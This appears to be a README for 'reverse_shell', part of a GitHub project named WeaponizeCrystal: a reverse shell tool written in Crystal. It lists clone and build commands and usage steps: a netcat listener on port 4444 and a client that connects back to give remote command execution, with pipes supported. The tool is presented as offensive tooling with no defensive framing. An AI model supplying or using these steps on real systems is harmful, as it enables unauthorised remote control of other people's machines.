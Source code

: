 # reverse_shell

Simple reverse shell using `Sockets`, `Process` and `File`.

## Installation

```sh
git clone https://github.com/js-on.de/WeaponizeCrystal.git
cd WeaponizeCrystal/reverse_shell
shards install
# compile
crystal build --single-module src/reverse_shell.cr
```

## Usage
*./reverse_shell ip port*
```sh
# Listener:
nc -lvnp 4444

# Client:
./reverse_shell <listener ip> 4444
```

You can use any bash commands you want. The shell value of `Process.run` is `true`, so even pipes are working.

Internal bash commands are not yet implemented due to missing importance; except of `cd`.

Type `?, help` to view commands provided by this reverse shell.

## Development

See [Contributing](https://github.com/js-on/WeaponizeCrystal/tree/main/reverse_shell#Contributing)

## Contributing

1. Fork it (<https://github.com/js-on/reverse_shell/fork>)
2. Create your feature branch (`git checkout -b my-new-feature`)
3. Commit your changes (`git commit -am 'Add some feature'`)
4. Push to the branch (`git push origin my-new-feature`)
5. Create a new Pull Request

## Contributors

- [js-on](https://github.com/js-on) - creator and maintainer
